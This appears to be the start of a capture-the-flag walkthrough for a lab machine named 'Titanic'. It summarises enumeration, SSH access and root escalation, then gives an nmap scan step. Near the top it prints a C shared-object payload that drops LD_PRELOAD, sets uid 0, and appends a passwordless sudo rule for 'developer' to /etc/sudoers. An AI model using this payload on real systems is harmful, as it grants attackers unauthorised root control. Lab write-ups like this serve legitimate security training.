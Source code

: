 # 🚢Titanic

## 🧠Summary 
> Using basics of web enumeration to find the vulnerabale subdomain which leads access to the
> machine using SSH(secure shell). In the machine found a vulnerable file identify_image.sh, So introduced a
> C program for gaining root access
  ```C
#include <stdio.h>
#include <sys/types.h>
#include <stdlib.h>
#include <unistd.h>

void _init() {
    unsetenv("LD_PRELOAD");
    setgid(0);
    setuid(0);
    system("echo 'developer ALL=(ALL) NOPASSWD:ALL' | sudo tee -a /etc/sudoers");
}
```
## 🔍Step 1 (Nmap scan)
- Did an nmap scan to determine the open ports in the machine
  ```bash
  nmap -sV -v {ip address}
  ```
- Note: Using the sV flag is for version detection which is always useful because can search in the web for past vulnareblity of that version
- The result of the nmap scan is in this link 👉 [nmap_scan_result](./titanic/nmap_scan.txt)
- 
